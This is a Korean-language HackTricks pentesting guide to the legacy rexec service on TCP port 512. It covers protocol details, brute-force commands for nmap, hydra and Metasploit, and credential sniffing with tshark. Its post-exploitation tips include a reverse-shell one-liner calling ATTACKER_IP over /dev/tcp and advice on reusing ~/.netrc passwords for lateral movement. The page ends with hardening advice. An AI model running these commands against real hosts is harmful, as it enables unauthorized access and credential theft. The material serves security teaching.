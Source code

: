 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

Rexec (원격 **exec**)는 원래 Berkeley *r*-services 스위트 중 하나입니다 ( `rlogin`, `rsh` 등과 함께).  이는 **명확한 텍스트 사용자 이름과 비밀번호로만 인증되는 원격 명령 실행** 기능을 제공합니다.  이 프로토콜은 1980년대 초에 정의되었으며 (RFC 1060 참조) 현재는 **설계상 안전하지 않다고 간주**됩니다.  그럼에도 불구하고 일부 레거시 UNIX / 네트워크 연결 장비에서 기본적으로 활성화되어 있으며, 내부 pentest 중에 가끔 나타납니다.

**기본 포트:** TCP 512 (`exec`)
```
PORT    STATE SERVICE
512/tcp open  exec
```
> 🔥 모든 트래픽 – 자격 증명을 포함하여 – **암호화되지 않은** 상태로 전송됩니다. 네트워크를 스니핑할 수 있는 누구나 사용자 이름, 비밀번호 및 명령을 복구할 수 있습니다.

### 프로토콜 간단 개요

1. 클라이언트가 TCP 512에 연결합니다.
2. 클라이언트가 세 개의 **NUL-종료** 문자열을 보냅니다:
* stdout/stderr를 수신하고자 하는 포트 번호(ASCII로) (종종 `0`),
* **사용자 이름**,
* **비밀번호**.
3. 실행할 **명령**이 포함된 최종 NUL-종료 문자열이 전송됩니다.
4. 서버는 단일 8비트 상태 바이트(0 = 성공, `1` = 실패)와 명령 출력을 뒤따라 응답합니다.

즉, `echo -e`와 `nc`만으로 교환을 재현할 수 있습니다:
```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```
유효한 자격 증명이면 동일한 연결에서 `id`의 출력을 바로 받을 수 있습니다.

### 클라이언트를 사용한 수동 사용

많은 리눅스 배포판은 여전히 **inetutils-rexec** / **rsh-client** 패키지 내에 레거시 클라이언트를 포함하고 있습니다:
```bash
rexec -l user -p password <target> "uname -a"
```
`-p`가 생략되면 클라이언트는 비밀번호를 대화식으로 요청합니다(전송 중에 평문으로 표시됨!).

---
## 열거 및 무차별 대입 공격

### [**무차별 대입 공격**](../generic-hacking/brute-force.md#rexec)

### Nmap
```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
`rexec-brute` NSE는 위에서 설명한 프로토콜을 사용하여 자격 증명을 매우 빠르게 시도합니다.

### Hydra / Medusa / Ncrack
```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra`는 전용 **rexec** 모듈을 가지고 있으며, 가장 빠른 오프라인 브루트포서로 남아 있습니다. `medusa` (`-M REXEC`)와 `ncrack` (`rexec` 모듈)도 같은 방식으로 사용할 수 있습니다.

### Metasploit
```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
모듈은 성공 시 셸을 생성하고 자격 증명을 데이터베이스에 저장합니다.

---
## 자격 증명 스니핑

모든 것이 평문이기 때문에, **네트워크 캡처는 매우 귀중합니다**. 트래픽의 복사본을 사용하면 대상을 건드리지 않고도 자격 증명을 추출할 수 있습니다:
```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```
(In Wireshark에서 *Decode As …​* TCP 512 → REXEC를 활성화하여 잘 정리된 필드를 확인하세요.)

---
## 포스트 익스플로잇 팁

* 제공된 사용자의 권한으로 실행되는 명령어입니다. `/etc/pam.d/rexec`가 잘못 구성된 경우(예: `pam_rootok`), 루트 쉘이 가끔 가능할 수 있습니다.
* Rexec는 사용자의 쉘을 무시하고 `/bin/sh -c <cmd>`를 통해 명령어를 실행합니다. 따라서 여러 명령어를 연결하거나 리버스 쉘을 생성하기 위해 일반적인 쉘 이스케이프 트릭(`;`, ``$( )``, 백틱)을 사용할 수 있습니다:
```bash
rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
```
* 비밀번호는 종종 다른 시스템의 **~/.netrc**에 저장됩니다; 하나의 호스트를 손상시키면 이를 재사용하여 측면 이동을 할 수 있습니다.

---
## 강화 / 탐지

* **rexec를 노출하지 마세요**; SSH로 교체하세요. 사실상 모든 현대 *inetd* 슈퍼서버는 기본적으로 이 서비스를 주석 처리합니다.
* 유지해야 한다면, TCP 래퍼(`/etc/hosts.allow`) 또는 방화벽 규칙으로 접근을 제한하고 강력한 계정별 비밀번호를 시행하세요.
* :512로의 트래픽과 `rexecd` 프로세스 시작을 모니터링하세요. 단일 패킷 캡처로도 손상을 감지할 수 있습니다.
* `rexec`, `rlogin`, `rsh`를 함께 비활성화하세요 – 이들은 대부분 동일한 코드베이스와 취약점을 공유합니다.

---

## 참조

* Nmap NSE `rexec-brute` 문서 – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Rapid7 Metasploit 모듈 `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
